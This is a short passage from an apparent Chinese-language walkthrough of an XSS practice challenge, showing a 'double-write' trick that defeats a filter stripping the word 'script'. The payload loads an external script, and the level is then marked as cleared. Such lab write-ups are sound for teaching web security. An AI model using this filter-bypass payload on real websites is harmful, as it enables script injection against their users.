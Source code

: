 ![72640635777](assets/1726406357770.png)

验证一下确实如此

尝试在上题的基础上使用双写绕过script过滤：

> Payload:<scscriptript src="https://xss.haozi.me/J.JS"></scscriptript>

![72640692007](assets/1726406920075.png)

通关！！！
